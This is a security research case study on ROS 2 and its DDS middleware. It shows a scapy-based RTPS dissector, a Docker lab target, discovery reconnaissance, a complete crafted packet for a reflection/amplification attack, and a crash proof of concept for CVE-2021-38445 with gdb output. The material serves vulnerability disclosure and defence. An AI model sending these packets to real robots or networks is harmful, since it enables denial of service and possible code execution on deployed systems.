



\newpage

## Robot Operating System (ROS) 2

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS 2[^1] and demonstrate how flaws on both ROS 2  or its underlayers lead to the system being compromised.

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.


### Dissecting ROS 2 network interactions through RTPS

To hack ROS 2, we'll be using a network dissector of the underlying default  communication middleware that ROS 2 uses: DDS. DDS stands for Data Distribution Service and is a middleware technology used in critical applications like autonomous driving, industrial and consumer robotics, healthcare machinery or  military tactical systems, among others.

In collaboration with other researchers, we built a DDS (more specifically, a Real-Time Publish Subscribe (RTPS) protocol) dissector to tinker with the ROS 2 communications. For a stable (known to work for the PoCs presented below) branch of the dissector, refer to [https://github.com/vmayoral/scapy/tree/rtps](https://github.com/vmayoral/scapy/tree/rtps) or alternatively, refer to the [official Pull Request we sent to scapy](https://github.com/secdev/scapy/pull/3403) for upstream integration.

The package dissector allows to both dissect and craft, which will be helpful while checking the resilience of ROS 2 communications. E.g., the following Python piece shows how to craft a simple empty RTPS package that will interoperate with ROS 2 Nodes:




```python
rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)
```

Let's get started by dockerizing an arbitrary targeted ROS 2 system.

### Dockerizing the target environment
ROS 2 is nicely integrated with Docker, which simplifies creating a hacking development environment. Let's build on top of the default ROS 2 containers and produce two targets for the latest LTS ROS 2 release: ROS 2 Foxy (latest LTS)

#### Build for Foxy from source and run

```bash
# Build may take a while depending on your machine specs
docker build -t hacking_ros2:foxy --build-arg DISTRO=foxy .
```

#### Run headless
```bash
# Launch container
docker run -it hacking_ros2:foxy /bin/bash

# Now test the dissector
cat << EOF > /tmp/rtps_test.py
from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0

rtps_package = RTPS(
    protocolVersion=ProtocolVersionPacket(major=2, minor=4),
    vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
    guidPrefix=GUIDPrefixPacket(
        hostId=16974402, appId=2886795266, instanceId=1172693757
    ),
    magic=b"RTPS",
)

hexdump(rtps_package)
rtps_package.show()
EOF

python3 /tmp/rtps_test.py
0000  52 54 50 53 02 04 01 03 01 03 02 42 AC 11 00 02  RTPS.......B....
0010  45 E5 E2 FD                                      E...
###[ RTPS Header ]###
  magic     = 'RTPS'
  \protocolVersion\
   |###[ RTPS Protocol Version ]###
   |  major     = 2
   |  minor     = 4
  \vendorId  \
   |###[ RTPS Vendor ID ]###
   |  vendor_id = Object Computing Incorporated, Inc. (OCI) - OpenDDS
  \guidPrefix\
   |###[ RTPS GUID Prefix ]###
   |  hostId    = 0x1030242
   |  appId     = 0xac110002
   |  instanceId= 0x45e5e2fd
```

#### Run, using X11
```bash
xhost + # (careful with this! use your IP instead if possible)
docker run -it -v /tmp/.X11-unix:/tmp/.X11-unix -e DISPLAY=$DISPLAY -v $HOME/.Xauthority:/home/xilinx/.Xauthority hacking_ros2:foxy
```

\newpage
### ROS 2 reconnaissance

ROS 2 uses DDS as the default communication middleware. To locate ROS 2 computational Nodes, one can rely on DDS discovery mechanisms. Here's the body of an arbitrary discovery response obtained from one of the most popular DDS implementations: Cyclone DDS.

```
0000  52 54 50 53 02 01 01 10 01 10 5C 8E 2C D4 58 47  RTPS......\.,.XG
0010  FA 5A 30 D3 09 01 08 00 6E 91 76 61 09 C4 5C E5  .Z0.....n.va..\.
0020  15 05 F8 00 00 00 10 00 00 00 00 00 00 01 00 C2  ................
0030  00 00 00 00 01 00 00 00 00 03 00 00 2C 00 1C 00  ............,...
0040  17 00 00 00 44 44 53 50 65 72 66 3A 30 3A 35 38  ....DDSPerf:0:58
0050  3A 74 65 73 74 2E 6C 6F 63 61 6C 00 15 00 04 00  :test.local.....
0060  02 01 00 00 16 00 04 00 01 10 00 00 02 00 08 00  ................
0070  00 00 00 00 38 89 41 00 50 00 10 00 01 10 5C 8E  ....8.A.P.....\.
0080  2C D4 58 47 FA 5A 30 D3 00 00 01 C1 58 00 04 00  ,.XG.Z0.....X...
0090  00 00 00 00 0F 00 04 00 00 00 00 00 31 00 18 00  ............1...
00a0  01 00 00 00 6A 7A 00 00 00 00 00 00 00 00 00 00  ....jz..........
00b0  00 00 00 00 C0 A8 01 55 32 00 18 00 01 00 00 00  .......U2.......
00c0  6A 7A 00 00 00 00 00 00 00 00 00 00 00 00 00 00  jz..............
00d0  C0 A8 01 55 07 80 38 00 00 00 00 00 2C 00 00 00  ...U..8.....,...
00e0  00 00 00 00 00 00 00 00 00 00 00 00 1D 00 00 00  ................
00f0  74 65 73 74 2E 6C 6F 63 61 6C 2F 30 2E 39 2E 30  test.local/0.9.0
0100  2F 4C 69 6E 75 78 2F 4C 69 6E 75 78 00 00 00 00  /Linux/Linux....
0110  19 80 04 00 00 80 06 00 01 00 00 00              ............
```

Using the RTPS dissector, we're can craft discovery requests and send them to targeted machines, processing the response and determining if any DDS participant is active within that machine and DOMAIN_ID.

Let's craft a package as follows and send it to the dockerized target we built before:




```bash
## terminal 1 - ROS 2 Node
docker run -it --net=host hacking_ros2:foxy -c "source /opt/opendds_ws/install/setup.bash; RMW_IMPLEMENTATION=rmw_cyclonedds_cpp /opt/opendds_ws/install/lib/examples_rclcpp_minimal_publisher/publisher_lambda"

## terminal 2 - Attacker (reconnaissance)
python3 exploits/footprint.py 2> /dev/null
```

Though DDS implementations comply with [OMG's DDS's specification](https://www.omg.org/spec/DDS), discovery responses vary among implementations. The following recording shows how while the crafted package allows to determine the presence of ROS 2 Nodes running (Galactic-default) CycloneDDS implementation, when changed to Fast-DDS (another DDS implementation, previously called FastRTPS and the default one in Foxy), no responses to the discovery message are received.

[](https://asciinema.org/a/K1IBM7ojOKlw89XhP9FJUXGYV)


\newpage
### ROS 2 reflection attack

[](https://asciinema.org/a/450475)

Each RTPS package `RTPSSubMessage_DATA` submessage can have multiple parameters. One of such parameters is `PID_METATRAFFIC_MULTICAST_LOCATOR`. Defined on [OMG's RTPS spec](https://www.omg.org/spec/DDSI-RTPS/2.5/PDF), it allows to hint which address should be used for multicast interactions. Unfortunately, there's no whitelisting of which IPs are to be included in here and all implementations allow for arbitrary IPs in this field. By modifying this value through a package, an attacker could hint a ROS 2 Node (through its underlying DDS implementation) to use a new multicast IP address (e.g. a malicious server that generates continuous traffic and responses to overload the stack and generate unwanted traffic) which can be used to trigger reflection (or amplification) attacks.




Here's an example of such package crafted with our dissector:

```python
from scapy.all import *
from scapy.layers.inet import UDP, IP
from scapy.contrib.rtps import *

bind_layers(UDP, RTPS)
conf.verb = 0

dst = "172.17.0.2"
sport = 17900
dport = 7400

package = (
    IP(
        version=4,
        ihl=5,
        tos=0,
        len=288,
        id=41057,
        flags=2,
        frag=0,
        dst=dst,
    )
    / UDP(sport=45892, dport=dport, len=268)
    / RTPS(
        protocolVersion=ProtocolVersionPacket(major=2, minor=4),
        vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
        guidPrefix=GUIDPrefixPacket(
            hostId=16974402, appId=2886795267, instanceId=10045242
        ),
        magic=b"RTPS",
    )
    / RTPSMessage(
        submessages=[
            RTPSSubMessage_DATA(
                submessageId=21,
                submessageFlags=5,
                octetsToNextHeader=0,
                extraFlags=0,
                octetsToInlineQoS=16,
                readerEntityIdKey=0,
                readerEntityIdKind=0,
                writerEntityIdKey=256,
                writerEntityIdKind=194,
                writerSeqNumHi=0,
                writerSeqNumLow=1,
                data=DataPacket(
                    encapsulationKind=3,
                    encapsulationOptions=0,
                    parameterList=ParameterListPacket(
                        parameterValues=[
                            PID_BUILTIN_ENDPOINT_QOS(
                                parameterId=119,
                                parameterLength=4,
                                parameterData=b"\x00\x00\x00\x00",
                            ),
                            PID_DOMAIN_ID(
                                parameterId=15,
                                parameterLength=4,
                                parameterData=b"*\x00\x00\x00",
                            ),
                            PID_PROTOCOL_VERSION(
                                parameterId=21,
                                parameterLength=4,
                                protocolVersion=ProtocolVersionPacket(major=2, minor=4),
                                padding=b"\x00\x00",
                            ),
                            PID_PARTICIPANT_GUID(
                                parameterId=80,
                                parameterLength=16,
                                parameterData=b"\x01\x03\x02B\xac\x11\x00\x03\x00\x99G:\x00\x00\x01\xc1",
                            ),
                            PID_VENDOR_ID(
                                parameterId=22,
                                parameterLength=4,
                                vendorId=VendorIdPacket(vendor_id=b"\x01\x03"),
                                padding=b"\x00\x00",
                            ),
                            PID_PARTICIPANT_BUILTIN_ENDPOINTS(
                                parameterId=68,
                                parameterLength=4,
                                parameterData=b"?\xfc\x00\x00",
                            ),
                            PID_BUILTIN_ENDPOINT_SET(
                                parameterId=88,
                                parameterLength=4,
                                parameterData=b"?\xfc\x00\x00",
                            ),
                            PID_METATRAFFIC_UNICAST_LOCATOR(
                                parameterId=50,
                                parameterLength=24,
                                locator=LocatorPacket(
                                    locatorKind=16777216, port=47324, address="8.8.8.8"
                                ),
                            ),
                            PID_METATRAFFIC_MULTICAST_LOCATOR(
                                parameterId=51,
                                parameterLength=24,
                                locator=LocatorPacket(
                                    locatorKind=16777216,
                                    port=17902,
                                    address="239.255.0.1",
                                ),
                            ),
                            PID_DEFAULT_UNICAST_LOCATOR(
                                parameterId=49,
                                parameterLength=24,
                                locator=LocatorPacket(
                                    locatorKind=16777216,
                                    port=12345,
                                    address="127.0.0.1",
                                ),
                            ),
                            PID_DEFAULT_MULTICAST_LOCATOR(
                                parameterId=72,
                                parameterLength=24,
                                locator=LocatorPacket(
                                    locatorKind=16777216,
                                    port=12345,
                                    address="127.0.0.1",
                                ),
                            ),
                            PID_PARTICIPANT_MANUAL_LIVELINESS_COUNT(
                                parameterId=52,
                                parameterLength=4,
                                parameterData=b"\x00\x00\x00\x00",
                            ),
                            PID_UNKNOWN(
                                parameterId=45061,
                                parameterLength=4,
                                parameterData=b"\x03\x00\x00\x00",
                            ),
                            PID_PARTICIPANT_LEASE_DURATION(
                                parameterId=2,
                                parameterLength=8,
                                parameterData=b",\x01\x00\x00\x00\x00\x00\x00",
                            ),
                        ],
                        sentinel=PID_SENTINEL(parameterId=1, parameterLength=0),
                    ),
                ),
            )
        ]
    )
)

send(package)
```

Fully avoiding this flaw requires a DDS implementation to break with the standard specification (which is not acceptable by various vendors because they profit from the interoperability the complying with the standard provides). Partial mitigations have appeared which implement exponential decay strategies for traffic amplification, making its exploitation more challenging.

This security issue affected all **DDS implementations** and as a result, all ROS 2 Nodes that build on top of DDS. As part of this research, various CVE IDs were filed:

| CVE ID | Description | Scope    |  CVSS    | Notes  |
|--------|-------------|----------|----------|--------|
| CVE-2021-38487 | RTI Connext DDS Professional, Connext DDS Secure Versions 4.2x to 6.1.0, and Connext DDS Micro Versions 3.0.0 and later are vulnerable when an attacker sends a specially crafted packet to flood victims’ devices with  unwanted traffic, which may result in a denial-of-service condition. | ConnextDDS, ROS 2<sub>*</sub>         | [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:L/AR:H) | [Mitigation patch in >= 6.1.0](https://community.rti.com/kb/ics-cert-security-notice-ics-vu-575352-vu770071) |
| CVE-2021-38429 | OCI OpenDDS versions prior to 3.18.1 are vulnerable when an attacker sends a specially crafted packet to flood victims’ devices with unwanted traffic, which may result in a denial-of-service condition. | OpenDDS, ROS 2<sub>*</sub>      |     [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:L/AR:H) | [Mitigation patch in >= 3.18.1](https://github.com/objectcomputing/OpenDDS/releases/tag/DDS-3.18.1) |
| CVE-2021-38425 | eProsima Fast-DDS versions prior to 2.4.0 (#2269) are susceptible to exploitation when an attacker sends a  specially crafted packet to flood a target device with unwanted traffic, which may result in a denial-of-service  condition. | eProsima Fast-DDS, ROS 2<sub>*</sub>  | [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:T/RC:C/CR:L/AR:H) | [WIP mitigation in master](https://github.com/eProsima/Fast-DDS/issues/2267)     |


#### Trying it out:

Let's try this out in the dockerized environment using byobu to facilitate the setup:

```bash
## terminal 1 - ROS 2 Node
# Launch container
docker run -it hacking_ros2:foxy /bin/bash

# (inside of the container), launch configuration
byobu -f configs/ros2_reflection.conf attach

## terminal 1 - attacker
# Launch the exploit
sudo python3 exploits/reflection.py 2> /dev/null
```


\newpage
### ROS 2 Node crashing

Fuzz testing often helps find funny flaws due to programming errors in the corresponding implementations. The following two were found while doing fuzz testing in a white-boxed manner (with access to the source code):

| CVE ID | Description | Scope    |  CVSS    | Notes  |
|--------|-------------|----------|----------|--------|
| CVE-2021-38447 | OCI OpenDDS versions prior to 3.18.1 are vulnerable when an attacker sends a specially crafted packet to flood  target devices with unwanted traffic, which may result in a denial-of-service condition.  | OpenDDS, ROS 2<sub>*</sub>   | [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:M/AR:H) | Resource exhaustion  [>= 3.18.1](https://github.com/objectcomputing/OpenDDS/releases/tag/DDS-3.18.1) |
| CVE-2021-38445 | OCI OpenDDS versions prior to 3.18.1 do not handle a length parameter consistent with the actual length of the associated data, which may allow an attacker to remotely execute arbitrary code.  | OpenDDS, ROS 2<sub>*</sub> | [7.0](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:M/AR:H) | Failed assertion [>= 3.18.1](https://github.com/objectcomputing/OpenDDS/releases/tag/DDS-3.18.1) |

They both affected OpenDDS. Let's try out [CVE-2021-38445](https://nvd.nist.gov/vuln/detail/CVE-2021-38445) which leads ROS 2 Nodes to either crash or execute arbitrary code due to DDS not handling properly the length of the `PID_BUILTIN_ENDPOINT_QOS` parameter within RTPS's `RTPSSubMessage_DATA` submessage. We'll reproduce this in the dockerized environment using byobu to facilitate the setup:

```bash
## terminal 1 - ROS 2 Node
# Launch container
docker run -it hacking_ros2:foxy -c "byobu -f configs/ros2_crash.conf attach"
# docker run -it --privileged --net=host hacking_ros2:foxy -c "byobu -f configs/ros2_crash.conf attach"

## terminal 2 - attacker
# Launch the exploit
sudo python3 exploits/crash.py 2> /dev/null
```

[](https://asciinema.org/a/450474)

The key aspect in here is the `parameterLength` value:


```bash
PID_BUILTIN_ENDPOINT_QOS(
                  parameterId=119,
                  parameterLength=0,
                  parameterData=b"\x00\x00\x00\x00",
              ),
```

#### Looking deeper into the crash issue

This flaw was fixed in [OpenDDS >3.18.1](https://github.com/objectcomputing/OpenDDS/releases/tag/DDS-3.18.1) but if you wish to look deeper into it, debug the node, find the crash and further inspect the source code. Here're are a few tips to do so:

```bash
## terminal 1 - ROS 2 Node
# rebuild workspace with debug symbols
colcon build --merge-install --packages-up-to examples_rclcpp_minimal_publisher --cmake-args -DCMAKE_BUILD_TYPE=Debug
```

and then debug the node with `gdb`:

```bash
## terminal 1 - ROS 2 Node
apt-get install gdb  # install gdb
wget -P ~ https://git.io/.gdbinit  # get a comfortable debugging environment

source /opt/opendds_ws/install/setup.bash
export RMW_IMPLEMENTATION=rmw_opendds_cpp
# launch debugging session with OpenDDS
gdb /opt/opendds_ws/install/lib/examples_rclcpp_minimal_publisher/publisher_lambda
```

if done properly, this should lead you to the following:

```bash
─── Assembly ─────────────────────────────────────────────────────────────────────────────────────
 0x00007f2c8479517a  __GI_raise+186 xor    %edx,%edx
 0x00007f2c8479517c  __GI_raise+188 mov    %r9,%rsi
 0x00007f2c8479517f  __GI_raise+191 mov    $0x2,%edi
 0x00007f2c84795184  __GI_raise+196 mov    $0xe,%eax
 0x00007f2c84795189  __GI_raise+201 syscall
 0x00007f2c8479518b  __GI_raise+203 mov    0x108(%rsp),%rax
 0x00007f2c84795193  __GI_raise+211 xor    %fs:0x28,%rax
 0x00007f2c8479519c  __GI_raise+220 jne    0x7f2c847951c4 <__GI_raise+260>
 0x00007f2c8479519e  __GI_raise+222 mov    %r8d,%eax
 0x00007f2c847951a1  __GI_raise+225 add    $0x118,%rsp
─── Breakpoints ──────────────────────────────────────────────────────────────────────────────────
─── Expressions ──────────────────────────────────────────────────────────────────────────────────
─── History ──────────────────────────────────────────────────────────────────────────────────────
─── Memory ───────────────────────────────────────────────────────────────────────────────────────
─── Registers ────────────────────────────────────────────────────────────────────────────────────
       rax 0x0000000000000000        rbx 0x00007f2c81b49700          rcx 0x00007f2c8479518b
       rdx 0x0000000000000000        rsi 0x00007f2c81b479d0          rdi 0x0000000000000002
       rbp 0x00007f2c8490a588        rsp 0x00007f2c81b479d0           r8 0x0000000000000000
        r9 0x00007f2c81b479d0        r10 0x0000000000000008          r11 0x0000000000000246
       r12 0x00007f2c83af1e00        r13 0x0000000000000176          r14 0x00007f2c83af21c4
       r15 0x0000000000000000        rip 0x00007f2c8479518b       eflags [ PF ZF IF ]
        cs 0x00000033                 ss 0x0000002b                   ds 0x00000000
        es 0x00000000                 fs 0x00000000                   gs 0x00000000
─── Source ───────────────────────────────────────────────────────────────────────────────────────
Cannot display "raise.c"
─── Stack ────────────────────────────────────────────────────────────────────────────────────────
[0] from 0x00007f2c8479518b in __GI_raise+203 at ../sysdeps/unix/sysv/linux/raise.c:50
[1] from 0x00007f2c84774859 in __GI_abort+299 at abort.c:79
[2] from 0x00007f2c84774729 in __assert_fail_base+-71239 at assert.c:92
[3] from 0x00007f2c84785f36 in __GI___assert_fail+70 at assert.c:101
[4] from 0x00007f2c836bbc38 in OpenDDS::DCPS::Serializer::smemcpy(char*, char const*, unsigned long)+66 at /opt/OpenDDS/dds/DCPS/Serializer.cpp:374
[5] from 0x00007f2c81cc51ba in OpenDDS::DCPS::Serializer::doread(char*, unsigned long, bool, unsigned long)+250 at ../../../../dds/DCPS/Serializer.inl:243
[6] from 0x00007f2c81cc52a0 in OpenDDS::DCPS::Serializer::buffer_read(char*, unsigned long, bool)+78 at ../../../../dds/DCPS/Serializer.inl:296
[7] from 0x00007f2c81cc5537 in OpenDDS::DCPS::operator>>(OpenDDS::DCPS::Serializer&, unsigned int&)+89 at ../../../../dds/DCPS/Serializer.inl:1193
[8] from 0x00007f2c83f78bf8 in OpenDDS::DCPS::operator>>(OpenDDS::DCPS::Serializer&, OpenDDS::RTPS::Parameter&)+7538 at /opt/OpenDDS/dds/DCPS/RTPS/RtpsCoreTypeSupportImpl.cpp:13064
[9] from 0x00007f2c83f6f2e6 in OpenDDS::DCPS::operator>>(OpenDDS::DCPS::Serializer&, OpenDDS::RTPS::ParameterList&)+102 at /opt/OpenDDS/dds/DCPS/RTPS/RtpsCoreTypeSupportImpl.cpp:9890
[+]
─── Threads ──────────────────────────────────────────────────────────────────────────────────────
[7] id 16227 name publisher_lambd from 0x00007f2c8473c376 in futex_wait_cancelable+29 at ../sysdeps/nptl/futex-internal.h:183
[6] id 16226 name publisher_lambd from 0x00007f2c8486712b in __GI___select+107 at ../sysdeps/unix/sysv/linux/select.c:41
[5] id 16215 name publisher_lambd from 0x00007f2c8473c376 in futex_wait_cancelable+29 at ../sysdeps/nptl/futex-internal.h:183
[4] id 16214 name publisher_lambd from 0x00007f2c8479518b in __GI_raise+203 at ../sysdeps/unix/sysv/linux/raise.c:50
[3] id 16213 name publisher_lambd from 0x00007f2c8473f3f4 in futex_abstimed_wait_cancelable+42 at ../sysdeps/nptl/futex-internal.h:320
[2] id 16212 name publisher_lambd from 0x00007f2c8486712b in __GI___select+107 at ../sysdeps/unix/sysv/linux/select.c:41
[1] id 16170 name publisher_lambd from 0x00007f2c8473c7b1 in futex_abstimed_wait_cancelable+415 at ../sysdeps/nptl/futex-internal.h:320
─── Variables ────────────────────────────────────────────────────────────────────────────────────
arg sig = 6
loc set = {__val = {[0] = 18446744067266838239, [1] = 139829178189904, [2] = 4222451712, [3] = 139828901466080…, pid = <optimized out>, tid = <optimized out>
──────────────────────────────────────────────────────────────────────────────────────────────────
```

### Credit
This research is the result of a cooperation among various security researchers and reported in [this advisory](https://us-cert.cisa.gov/ics/advisories/icsa-21-315-02). The following individuals too part on it (alphabetical order):

- [Chizuru Toyama](https://www.linkedin.com/in/chizuru-toyama-0a070427/)
- [Erik Boasson](https://www.linkedin.com/in/erik-boasson-21344912/)
- [Federico Maggi](https://www.linkedin.com/in/phretor)
- [Mars Cheng](https://www.linkedin.com/in/marscheng93/)
- Patrick Kuo
- [Ta-Lun Yen](https://www.linkedin.com/in/evsfy/)
- [Víctor Mayoral-Vilches](https://www.linkedin.com/in/vmayoral/)
